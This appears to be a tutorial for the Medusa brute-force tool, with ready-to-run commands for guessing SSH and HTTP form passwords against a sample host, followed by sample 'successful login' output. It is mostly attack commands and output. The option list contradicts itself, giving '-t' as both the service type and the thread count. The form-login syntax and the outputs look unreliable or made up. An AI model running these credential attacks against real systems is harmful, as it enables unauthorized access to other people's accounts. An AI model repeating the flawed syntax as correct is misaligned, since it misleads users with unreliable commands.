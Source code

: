 ```bash
medusa [options] -h <target_host> -t <target_type> -u <username> -p <password>
```

### Common Options

- **-h <target_host>**: Specifies the target host IP or hostname.
- **-t <target_type>**: Specifies the type of service (e.g., ssh, ftp, http, etc.).
- **-u <username>**: Specifies a single username.
- **-p <password>**: Specifies a single password.
- **-U <file>**: Loads usernames from a file.
- **-P <file>**: Loads passwords from a file.
- **-f**: Stops after the first correct password/login pair is found.
- **-t <number>**: Specifies the number of parallel threads (default is 1).

### Examples

#### 1. Brute-forcing SSH with a Single Username and Password List

```bash
medusa -h 192.168.1.100 -t ssh -u admin -P /path/to/passwords.txt
```

- **-h 192.168.1.100**: Target IP address.
- **-t ssh**: Specifies the SSH service.
- **-u admin**: Single username to use.
- **-P /path/to/passwords.txt**: Path to a file containing passwords.

**Expected Output:**

```
[+] Medusa v2.2.1 [http://www.foofus.net] starting at 2023-10-01 12:34:56
[+] Target: 192.168.1.100
[+] Protocol: SSH (ssh)
[+] Credentials: admin / password123
[+] Successfully logged in as admin with password123.
```

#### 2. Brute-forcing HTTP Form Login

For web applications, you may need to specify the form parameters:

```bash
medusa -h 192.168.1.100 -t http -u admin -P /path/to/passwords.txt -m "POST /login.php username=^USER^&password=^PASS^"
```

- **-m "POST /login.php username=^USER^&password=^PASS^"**: Specifies the HTTP POST method and the form parameters. `^USER^` and `^PASS^` are placeholders for the username and password.

**Expected Output:**

```
[+] Medusa v2.2.1 [http://www.foofus.net] starting at 2023-10-01 12:45:23
[+] Target: 192.168.1.100
[+] Protocol: HTTP
[+] Credentials: admin / password456
[+] Successfully logged in as admin with password456.
```
